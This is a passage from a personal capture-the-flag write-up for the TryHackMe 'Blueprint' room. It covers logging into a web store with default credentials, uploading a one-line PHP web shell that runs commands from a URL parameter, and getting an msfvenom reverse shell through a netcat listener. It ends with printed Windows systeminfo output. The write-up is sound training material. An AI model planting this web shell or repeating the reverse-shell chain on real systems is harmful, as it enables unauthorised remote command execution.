 ![](<../../.gitbook/assets/image (124) (1).png>)

I tried **admin** for the Username, and I ran into an error. I then tried **root** and it worked! I then set the Online Store Settings like:

![](<../../.gitbook/assets/image (125) (1).png>)

All the previous setup for the commerce site was based off of [the same write-up](https://www.cybersecpadawan.com/2020/05/tryhackme-blueprint-exploitation-no.html). I then got the following page:

![](<../../.gitbook/assets/image (126) (1).png>)

I was then lost about where to go from here. I then looked at the write-up and learned that I had to upload a basic PHP file:

```php
<?php passthru($_GET['cmd']);
?>
```

I then ran the python file with the modules:

![](<../../.gitbook/assets/image (127) (1).png>)

I then realized I had made a mistake. In my python command, I had added a "/" in the URL when I was not supposed to do so. After that, I was successful:

![](<../../.gitbook/assets/image (128) (1).png>)

I will be honest, at this part, I had to look back at the write-up because I was out of the TryHackMe game for a while, and was not sure what to do. The next item I had to do was get a reverse shell on the machine. In order to do this, I would have to use **msfvenom** in order to do so:

![](<../../.gitbook/assets/image (129) (1).png>)

Now I can run a **netcat** listener and then go to the webpage with the executable on it:

![](<../../.gitbook/assets/image (130) (1).png>)

I then ran systeminfo in order to gain information about the system. I then got the following result:

```php
Host Name:                 BLUEPRINT
OS Name:                   Microsoft Windows 7 Home Basic 
OS Version:                6.1.7601 Service Pack 1 Build 7601
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00346-OEM-8992752-50005
Original Install Date:     1/15/2017, 6:48:59 AM
System Boot Time:          7/11/2021, 10:19:59 PM
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 6 Model 63 Stepping 2 GenuineIntel ~2400 Mhz
BIOS Version:              Xen 4.2.amazon, 8/24/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     2,048 MB
```